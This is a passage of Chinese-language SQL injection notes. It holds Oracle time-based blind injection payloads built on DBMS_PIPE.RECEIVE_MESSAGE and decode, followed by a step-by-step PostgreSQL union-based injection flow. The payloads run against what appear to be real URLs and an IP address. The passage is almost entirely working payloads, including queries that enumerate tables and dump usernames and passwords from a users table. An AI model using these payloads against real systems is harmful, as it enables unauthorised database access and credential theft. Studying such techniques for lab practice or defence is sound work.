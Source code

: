 ```bash
AND [RANDNUM]=DBMS_PIPE.RECEIVE_MESSAGE('[RANDSTR]',[SLEEPTIME])                 comment:   -- /**/
```

```bash
?id=1' and 1=(case when ascii(substr(user,1,1))> 128 then DBMS_PIPE.RECEIVE_MESSAGE('a',5) else 1 end)--

?id=1' and 1=(case when ascii(substr(user,1,1))> 64 then DBMS_PIPE.RECEIVE_MESSAGE('a',5) else 1 end)--
```



decode不仅可以在布尔盲注中运用，也可以用在延迟盲注中

```
and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',10),0) from dual) --
 
 http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',dbms_pipe.receive_message('RDS',5),0) from dual) --
```

当然，这里延迟的操作不一定用延迟函数，也可以使用花费更多时间去查询所有数据库的条目。例如:

`(select count(*) from all_objects) `

```
http://www.jsporcle.com/news.jsp?id=1 and 1=(select decode(substr(user,1,1),'S',(select count(*) from all_objects),0) from dual) and '1'='1'
```

通过这种明显时间差也能判断注入表达式的结果。







# PostgreSQL注入

## 注入流程

```bash
#order by  猜字段
219.153.49.228:47148/new_list.php?id=1 order by 4

#判断是否为postgresql
?id=1 and 1::int=1--


#全部用null填充 方便在测试类型
?id=-1 union select null,null,null,null 

#测试类型，  这里为字符类型
?id=-1  union select null,'null','null',null

#当前数据库
?id=-1 union select null,current_database(),'null',null

#表名       
?id=-1 union select null,relname,'null',null from pg_stat_user_tables limit 1 offset 1

#列名   分析解说：通过SQL语句中联合查询，修改offset后面的数字得到2个字段，和字段名
?id=-1 union select null,column_name,'null',null from+information_schema.columns where table_name='reg_users' limit 1 offset 1

#字段值     offset不断改变值，依次获取值   通过SQL语句联合查询，显示出key的MD5值。
?id=-1 union select null,'null','用户名:'||name||',密码:'||password||',状态:'||status||',id:'||id,null from reg_users limit 1 offset 0
```